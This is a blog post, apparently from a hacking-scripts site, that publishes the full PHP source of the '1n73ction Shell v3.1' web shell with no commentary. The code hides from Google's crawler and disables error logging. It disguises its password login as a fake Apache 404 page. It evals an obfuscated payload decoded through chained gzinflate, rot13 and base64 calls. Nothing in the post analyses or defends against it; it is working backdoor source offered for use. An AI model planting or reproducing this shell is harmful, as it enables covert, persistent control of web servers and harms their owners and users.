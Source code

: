 ```yaml
---
id: 234
title: 1n73ction Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=234
permalink: /1n73ction-shell/
categories:
  - PHP
tags:
  - 1n73ction
  - PHP
---
```

1n73ction Shell v3.1 by x&#8217;1n73ct


### 1n73ction Shell v3.1 Source Code

{% highlight php linenos %}<?php
/* (1n73ction shell v3.1 by x'1n73ct|default pass:" 1n73ction ") */ 
$auth_pass = "b75d0fe83fb0e1631a47868c279c1c56"; 
$color = "#00ff00"; 
$default_action = 'FilesMan'; 
@define('SELF_PATH', __FILE__); 
if( strpos($_SERVER['HTTP_USER_AGENT'],'Google') !== false ) { 
    header('HTTP/1.0 404 Not Found'); 
    exit; 
} 
@session_start(); 
@error_reporting(0); 
@ini_set('error_log',NULL); 
@ini_set('log_errors',0); 
@ini_set('max_execution_time',0);
@ini_set('output_buffering',0); 
@ini_set('display_errors', 0);
@set_time_limit(0); 
@set_magic_quotes_runtime(0); 
@define('VERSION', '2.1'); 
if( get_magic_quotes_gpc() ) { 
    function stripslashes_array($array) { 
        return is_array($array) ? array_map('stripslashes_array', $array) : stripslashes($array); 
    } 
    $_POST = stripslashes_array($_POST); 
} 
function printLogin() { 
    ?> 
&lt;h1&gt;Not Found&lt;/h1&gt; 
&lt;p&gt;The requested URL was not found on this server.&lt;/p&gt; 
&lt;hr&gt; 
&lt;address&gt;Apache Server at <?=$_SERVER['HTTP_HOST']?> Port 80&lt;/address&gt; 
    &lt;style&gt; 
        input { margin:0;background-color:#fff;border:1px solid #fff; } 
    &lt;/style&gt; 
    &lt;center&gt; 
    &lt;form method=post&gt; 
    &lt;input type=password name=pass&gt; 
    &lt;/form&gt;&lt;/center&gt; 
    <?php 
    exit; 
} 
if( !isset( $_SESSION[md5($_SERVER['HTTP_HOST'])] )) 
    if( empty( $auth_pass ) || 
        ( isset( $_POST['pass'] ) && ( md5($_POST['pass']) == $auth_pass ) ) ) 
        $_SESSION[md5($_SERVER['HTTP_HOST'])] = true; 
    else 
        printLogin();
		@ini_set('output_buffering',0); 
@ini_set('display_errors', 0);
function x($inject){eval("\$z=gz" . "inf" . "la" . "te(s" . "t" . "r_r" . "ot" . "13(ba" . "se" . "6" . "4" . "_" . "d" . "e" . "c" . "o" . "de(st" . "r" . "_" . "r" . "o" . "t" . "13(" . "gzi" . "nf" . "lat" . "e(" . "bas" . "e6" . "4_d" . "ec" . "ode(\$inject))))));eval(\$z);");}
x("DczdFkIwAADgB3Kx4+f4uehiJyJFM0bcjYPKqGbFPH19D/Adch2iLn+Qan8XlupmvkrlMEVX3NtyDS2gc9nTGF4X0yHDKSAFnPHHOkwhFNw5v0XIqMdyAylyc5r0ReRkzlhmX8y5Fizfz5rpiQsaz7jdWXZDUbJdcN2KqfRPLWnrJ6t88P9SpB5TNIws6KCxxSXvo3EugK2kQKNA2M66mLG72/0A");
?>
{% endhighlight %}